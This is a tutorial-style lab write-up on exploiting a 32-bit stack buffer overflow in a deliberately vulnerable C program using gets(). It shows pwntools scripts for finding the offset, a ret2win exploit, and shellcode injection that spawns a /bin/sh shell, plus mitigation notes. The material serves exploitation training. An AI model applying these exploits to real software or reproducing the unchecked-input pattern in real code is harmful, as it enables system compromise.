

<Callout type="info" title="Concept Overview">
This note covers a classic 32-bit stack-based buffer overflow exploit. We leverage the dangerous `gets()` function to crash the binary, use pwntools' cyclic patterns to find the exact EIP offset, and demonstrate two distinct exploitation paths: **Ret2Win** (bypassing NX) and **Shellcode Injection** (using an executable stack via `patchelf`).

**MITRE ATT&CK Mapping:**
* [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
* [T1055 - Process Injection](https://attack.mitre.org/techniques/T1055/)
</Callout>


---

## Exploitation Workflow



---

## Phase 1: The Vulnerable Target & Crash Analysis

<Steps>
  <Step title="Step 1: The Vulnerable Code (`file.c`)">
    <Callout type="danger" title="Classic Buffer Overflow">
    The binary contains a classic buffer overflow vulnerability. The `gets()` function reads user input directly into `str` without checking if the input exceeds the 40-byte buffer limit. This allows us to overwrite the saved return pointer on the stack.
    </Callout>
    
    <AccordionGroup>
      <Accordion title="C Code">
        ```c
        #include <stdio.h> 
        
        char *gets(char *); 
        
        void win(){ 
            printf("\033[0;32m ** You hit the jackpot! :-D ** \033[0m\n");
        } 
        
        int main(){ 
            char str[40]; 
        
            puts("Give me some input: "); 
            gets(str); // VULNERABILITY: No bounds checking! 
        
            puts("bye"); 
            printf("by the way, main return address is: %p\n",
                   __builtin_return_address(0)); 
        
            return 0; 
        }
        ```
      </Accordion>
    </AccordionGroup>
  </Step>

  <Step title="Step 2: Finding the Offset (Sending a Cyclic Pattern)">
    To find the exact number of bytes needed to reach the Instruction Pointer (EIP), we send a De Bruijn sequence (a cyclic pattern) using pwntools and analyze the core dump. We also grab the ESP value, which will be crucial for the shellcode exploit later.
    
    <AccordionGroup>
      <Accordion title="Exploit 1 (`ex.py`)">
        ```python
        from pwn import * 
        
        context.binary = './file.elf'
        context.arch = 'i386' 
        
        p = process('./file.elf') 
        
        payload = cyclic(100)
        p.sendline(payload) 
        
        p.wait() # Wait for crash 
        
        core = p.corefile 
        
        print("EIP =", hex(core.eip))
        print("Offset =", cyclic_find(core.eip))
        print("ESP =", hex(core.esp))
        ```
      </Accordion>
      <Accordion title="Output & Analysis">
        ```text
        [*] '/home/kali/Document/Code/c/file.elf'
            Arch:       i386-32-little
            RELRO:      Partial RELRO
            Stack:      No canary found
            NX:         NX unknown - GNU_STACK missing
            PIE:        No PIE (0x8048000)
            Stack:      Executable
            RWX:        Has RWX segments
        [+] Starting local process '../c/file.elf': pid 1612
        [*] Process '../c/file.elf' stopped with exit code -11 (SIGSEGV) (pid 1612)
        [+] Parsing corefile...: Done
        [*] '/home/kali/Document/Code/py/core.1612'
            Arch:      i386-32-little
            EIP:       0x6161616d
            ESP:       0xffffcc10
            Fault:     0x6161616d
        EIP = 0x6161616d
        Offset = 48
        ESP = 0xffffcc10
        ```
        *Explanation: The program crashed with a Segmentation Fault (SIGSEGV). The EIP was overwritten by `0x6161616d` (which is `maaa` in ASCII). Using `cyclic_find`, we determine that it takes exactly **48 bytes** of padding to reach the saved return address. We also note the ESP address (`0xffffcc10`), which is where our payload will land.*
      </Accordion>
    </AccordionGroup>
  </Step>
</Steps>

---

## Phase 2, Path A: Ret2Win (Bypassing NX)

<Callout type="danger" title="Overwriting EIP with `win()` Address">
If the stack is NOT executable (NX Enabled), we cannot run our own code. Instead, we redirect execution to an existing function in the binary (`win()`). We fill the first 48 bytes with junk data, and append the memory address of `win()`. 
</Callout>

<AccordionGroup>
  <Accordion title="Exploit 2 (`exp.py`)">
    ```python
    from pwn import * 

    context.binary = './file.elf'
    context.arch = 'i386' 

    elf = context.binary
    p = process(elf.path) 

    offset = 48
    win = elf.symbols['win']

    log.info(f"win = {hex(win)}")
    log.info(f"offset = {offset}")

    # Payload: 48 bytes of 'A' + Address of win()
    payload = flat(
        b'A' * offset,
        win
    )

    p.sendline(payload)
    p.interactive()
    ```
  </Accordion>
</AccordionGroup>

<Callout type="info">
*Result: The program prints "bye", but instead of returning normally, it executes `win()` and hits the jackpot. NX is completely bypassed because we jumped to the `.text` segment.*
</Callout>

---

## Phase 2, Path B: Shellcode Injection (Executable Stack)

<Steps>
  <Step title="Step 1: Patching the Stack">
    If we want a full shell instead of just printing a message, we need to execute our own code. First, we ensure the stack is executable using `patchelf`:
    ```bash
    patchelf --set-execstack file.elf
    ```
  </Step>
  <Step title="Step 2: Crafting the Payload">
    Now, we craft a payload that places a NOP sled and shellcode directly on the stack, and we overwrite EIP with the address of ESP (which we leaked in Phase 1).
    
    **Conceptual Stack Layout:**
    ```mermaid
    %%{init: {'theme': 'base', 'themeVariables': { 'background': '#050505', 'primaryColor': '#111118', 'edgeLabelBackground': '#050505', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#FF003C', 'lineColor': '#FF003C', 'fontFamily': 'monospace' }}}%%
    flowchart TD
        subgraph Stack ["Stack Memory Layout (Payload)"]
            direction TB
            A["Junk Padding (48 bytes)<br>cyclic pattern"]
            B["Overwritten EIP (Return Address)<br>0xffffcc10 (Points to ESP)"]
            C["NOP Sled (100 bytes)<br>0x90 0x90 0x90..."]
            D["Shellcode (execve /bin/sh)"]
        end
        A --> B
        B --> C
        C --> D
        B -.->|"Execution jumps here and slides down"| C
        
        classDef default fill:#111118,stroke:#585b70,stroke-width:1px,color:#ffffff;
        classDef action fill:#1a1a1a,stroke:#89b4fa,stroke-width:2px,color:#89b4fa;
        classDef attacker fill:#2a0008,stroke:#FF003C,stroke-width:2px,color:#FF003C;
        classDef exec fill:#1a1a1a,stroke:#a6e3a1,stroke-width:2px,color:#a6e3a1;

        class A action;
        class B attacker;
        class C,D exec;
    ```
  </Step>
  <Step title="Step 3: Executing the Exploit">
    <AccordionGroup>
      <Accordion title="Exploit 3 (`exp.py`)">
        ```python
        from pwn import * 

        context.binary = '../c/file.elf'
        context.arch = 'i386' 

        p = process('../c/file.elf') 

        # Payload: 48 bytes padding + ESP Address + NOP sled + Shellcode
        payload = cyclic(48)
        payload += p32(0xffffcc10)   # Overwrite EIP with ESP address
        payload += b'\x90' * 100    # NOP sled to ensure we land safely
        payload += asm(shellcraft.sh()) # Pwntools default /bin/sh shellcode

        p.recvuntil(b"Give me some input: ")
        p.sendline(payload)

        p.interactive()
        ```
      </Accordion>
    </AccordionGroup>
  </Step>
</Steps>

---

## OPSEC & Mitigation Notes

<CardGroup cols={3}>
  <Card title="No Canary" icon="shield-off">
    Both exploits rely on the absence of Stack Canaries (`-fno-stack-protector`). If a canary were present, our 100-byte cyclic pattern would have overwritten it, causing the program to abort *before* reaching the return address.
  </Card>
  <Card title="No PIE" icon="map-pin-off">
    The binary is not Position Independent (`-no-pie`). This means the address of `win()` (`0x8049186`) is static and hardcoded. In the shellcode exploit, leaking ESP (`0xffffcc10`) is reliable because ASLR is disabled or the corefile provided the exact crash address. If PIE/ASLR were enabled, an info-leak vulnerability would be required first.
  </Card>
  <Card title="NX Bit" icon="cpu">
    The Ret2Win technique works *despite* NX being enabled, because we jump to existing executable code. The Shellcode Injection technique *requires* NX to be disabled (which we achieved using `patchelf --set-execstack`), as the CPU must be allowed to execute instructions located on the stack.
  </Card>
</CardGroup>
